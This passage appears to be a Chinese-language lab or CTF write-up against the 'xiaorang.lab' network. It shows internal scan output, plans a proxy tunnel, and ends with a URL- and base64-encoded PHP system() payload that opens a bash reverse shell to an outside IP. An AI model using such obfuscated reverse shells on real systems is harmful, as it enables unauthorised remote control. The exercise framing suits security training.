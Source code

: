 \[*\]172.22.15.24  
\[->\]XR-WIN08  
\[->\]172.22.15.24  
\[*\] NetInfo:  
\[*\]172.22.15.18  
\[->\]XR-CA  
\[->\]172.22.15.18  
\[*\] NetBios: 172.22.15.35 XIAORANG\\XR-0687  
\[*\] NetBios: 172.22.15.13 \[+\]DC XR-DC01.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] 172.22.15.13 (Windows Server 2016 Standard 14393)  
\[*\] NetBios: 172.22.15.24 WORKGROUP\\XR-WIN08 Windows Server 2008 R2 Enterprise 7601 Service Pack 1  
\[*\] NetBios: 172.22.15.18 XR-CA.xiaorang.lab Windows Server 2016 Standard 14393  
\[*\] WebTitle: [http://172.22.15.26](http://172.22.15.26/) code:200 len:39962 title:XIAORANG.LAB  
\[*\] WebTitle: [http://172.22.15.18](http://172.22.15.18/) code:200 len:703 title:IIS Windows Server  
\[*\] WebTitle: [http://172.22.15.24](http://172.22.15.24/) code:302 len:0 title:None 跳转 url: [http://172.22.15.24/www](http://172.22.15.24/www)  
\[+\] [http://172.22.15.18](http://172.22.15.18/) poc-yaml-active-directory-certsrv-detect  
\[\*\] WebTitle: [http://172.22.15.24/www/sys/index.php](http://172.22.15.24/www/sys/index.php) code:200 len:135 title:None  
:::  
大致分析一下，这里`172.22.15.26`为此靶标地址。`172.22.15.24`可能存在永痕之蓝漏洞

```plain
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687               
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393  ## 域控
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393 
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

这里我们配合`kali`配合搭建一个`nps代理隧道`  
注意此处：Kali 是作为服务端 `nps`、靶标为客户端 `npc`链接  
靶标是出网的..

```plain
1=system('%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68');
%65%63%68%6f%20%22%59%6d%46%7a%61%43%41%74%59%79%41%69%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%54%45%75%4d%6a%49%35%4c%6a%45%31%4f%43%34%30%4d%43%38%79%4d%7a%4d%7a%49%44%41%2b%4a%6a%45%69%22%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68
## 直接弹 shell
```
